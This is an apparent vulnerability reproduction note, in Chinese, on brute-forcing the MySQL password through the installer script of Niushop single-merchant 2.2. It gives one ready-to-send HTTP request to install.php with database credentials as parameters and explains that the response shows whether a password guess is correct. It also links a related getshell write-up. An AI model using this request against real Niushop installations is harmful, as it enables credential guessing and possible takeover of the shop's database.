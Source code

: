 # Niushop 单商户 2.2 爆破MySQL密码

### 一、漏洞简介

### 二、漏洞影响

Version：单商户 2.2

### 三、复现过程

安装爆破MySQL密码


```bash
GET /niushop/install.php?action=true&dbserver=127.0.0.1&dbpassword=root2&dbusername=root&dbname=niushop_b2c HTTP/1.1
Host: 127.0.0.1
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
Referer: http://127.0.0.1/niushop/install.php?refresh
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: action=db
Connection: close
```

![](images/15891969733681.jpg)


爆破成功返回1，密码错误返回0

**参考链接**

https://y4er.com/post/niushop-getshell/